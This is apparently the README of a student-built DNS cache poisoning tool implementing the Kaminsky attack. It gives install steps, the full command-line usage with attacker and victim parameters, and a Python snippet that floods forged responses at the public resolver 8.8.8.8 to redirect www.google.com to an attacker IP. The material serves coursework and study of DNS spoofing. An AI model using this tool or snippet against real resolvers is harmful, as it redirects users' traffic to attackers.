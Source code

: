 # DNS Poisoning Tool
A tool to perform DNS cache poisoning against vulnerable server.

![Image](docs/dnspoisoning_screen_2.png)

Both attack methodology is widely described here: [Kaminsky Attack](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html)

A detailed software documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/html/annotated.html)

**WARNING**: This code is intended to be used only in the context of a particular assignment. If you want to reuse some of the functionalities refer to the [modules section](#modules). 

**NOTE**: When used to test homework result the **FAST** mode is mandatory since otherwise packets are transmitted too slowly causing the attack to fail.

## Requirements
* Scapy (For packet crafting) `pip3 install scapy`
* Blessing (For coloured terminal) `pip3 install blessings`
* DNS Python (For initial DNS query)  `pip3 install dnspython`

Inline requirements installation command pip install:

```pip3 install scapy blessings dnspython```

Otherwise simply use the provided requirements file

```pip3 install -r requirements.txt```

## Usage
The files ```launch.sh``` and ```launch_fast.sh``` can be edited with all the necessary paramters to carry on the attack or, instead, you could use the command line parameter directly.

```
usage: main.py [-h] -t DOMAIN -a ATTACKER_IP -v VICTIM_DNS_IP
               [-bs BAD_SERVER_IP] [-bp BAD_SERVER_PORT] -bd BAD_DOMAIN
               [-ns NS_SERVER] [-i INTERFACE] [-at {NORMAL,DAN}]
               [-m {NORMAL,FAST}] [-vm VICTIM_MAC] [-si SECRET_IP]
               [-sp SECRET_PORT] [-n NUM_ATTACK] [-nc] [-vb {1,2,3,4}]

DNS Poisoning Attack Tool

optional arguments:
  -h, --help            show this help message and exit
  -t DOMAIN, --target-domain DOMAIN
                        The target domain to spoof
  -a ATTACKER_IP, --attacker-ip ATTACKER_IP
                        Attacker IP address
  -v VICTIM_DNS_IP, --victim-dns-ip VICTIM_DNS_IP
                        The victim DNS IP address
  -bs BAD_SERVER_IP, --bad-server-ip BAD_SERVER_IP
                        The Bad Guy DNS server IP
  -bp BAD_SERVER_PORT, --bad-server-port BAD_SERVER_PORT
                        The Bad Guy DNS server port
  -bd BAD_DOMAIN, --bad-domain BAD_DOMAIN
                        The domain belonging to the attacker controlled zone
  -ns NS_SERVER, --ns-server NS_SERVER
                        The victim authoritative server
  -i INTERFACE, --interface INTERFACE
                        The Network Card interface to use
  -at {NORMAL,DAN}, --attack-type {NORMAL,DAN}
                        The type of attack to perform
  -m {NORMAL,FAST}, --mode {NORMAL,FAST}
                        Mode to use
  -vm VICTIM_MAC, --victim-mac VICTIM_MAC
                        The victim MAC address
  -si SECRET_IP, --secret-ip SECRET_IP
                        IP to bind for the secret fetcher
  -sp SECRET_PORT, --secret-port SECRET_PORT
                        Port to bind for the secret fetcher
  -n NUM_ATTACK, --num-attack NUM_ATTACK
                        Number of attack to perform
  -nc, --no-colors      Suppress coloured terminal output
  -vb {1,2,3,4}, --verbosity {1,2,3,4}
                        Verbosity level
 ```
## Features
The tool support two version of the attack that can be specified with the related parameter
* Classical poisoning ([Shenanigans Version 1](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv1))
* Dan's Shenanigans ([Dan's Version](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv2))

In addition two modes are available for flooding
* **Normal Flooding** - which uses IP layer
* **Faster Flooding** - which uses Ethernet layer

When "*faster flooding*" is used, both victim MAC Address and a network interface must be supplied.

The secret is printed both on the terminal output and in ```log_secret.txt``` file. 

### <a id="modules"></a> Modules
The code is developed in a modular way in order to be implemented in other tools. An extensive class documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/html/annotated.html).
For example the following code starts a flood of DNS crafted response against the server at "8.8.8.8" in order to spoof the google domain and redirect users to the attacker IP (66.66.66.66):
```python 
import DNSPoisoning

poisoning = DNSPoisoning('8.8.8.8', 'www.google.com', '66.66.66.66')
poisoning.start_flooding()
```

### Bugs
When runninng in faster mode, a single CTRL+C signal is not sufficient to stop the execution due to some thread/signal handler bug. Therefore to completely stop the tool is required to hold CTRL+C for few seconds until the terminate the application.
